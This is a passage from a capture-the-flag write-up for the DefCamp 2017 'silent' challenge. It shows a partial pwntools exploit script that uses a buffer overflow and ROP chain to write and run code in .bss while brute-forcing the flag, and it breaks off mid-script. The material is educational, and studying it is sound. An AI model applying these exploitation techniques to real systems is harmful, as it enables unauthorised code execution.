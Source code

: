 ![fail](/img/writeups/itworksonmymachine.png)

They quickly realized the problem and told all teams how they were starting the process on their end:

`socat TCP4-LISTEN:7777,reuseaddr,fork  EXEC:./silent,pty,ctty,echo=0`

Sure enough, testing it locally with socat and these parameters resulted in failure... Turns out some of the bytes used in our payload are special characters for socat, which resulted in unexpected behaviour... After a couple more tries, we finally ended up with a working script:

```
#!/usr/bin/env python2
from pwn import *
import time

context.log_level = 'error'
context.arch='amd64'

def rem():
    url  = "silent.kv-server.dctf-f1nals-2017.def.camp"
    port = 3333
    return remote(url, port)

# if using loc, starts the process with: socat TCP4-LISTEN:77,reuseaddr,fork  EXEC:./silent,pty,ctty,echo=0
def loc():
    url  = "localhost"
    port = 7777
    return remote(url, port)

elf = ELF('./silent')

# rop gadgets 
pop_rsi  = 0x4007f1        # pop rsi ; pop r15 ; ret 
pop_rdi  = 0x4007f3        # pop rdi ; ret
s_format = 0x400814        # pointer to "%s"
bss      = elf.bss()+0x100 # +0x100 to avoid having 0x11 (socat special char.) in our payload

#flag_chars = 'D'
flag_chars = "DCTF{}0123456789abcdef"
filename   = "flag\x00"
answer     = ""
while(1):
    current_len = len(answer)
    for target in flag_chars:
        p = loc()

        # Buffer overflow + ROP chain to write and jump in .bss
        payload  = '\x90'*1352 # enough junk to overflow rbp, but not ret
        payload += p64(pop_rsi) + p64(bss) + p64(0) 
        payload += p64(pop_rdi) + p64(s_format)
        payload += p64(elf.plt['__isoc99_scanf'])
        payload += p64(bss + len(filename))
        p.sendline(payload)

        # abtrirary code we want written and executed in .bss
```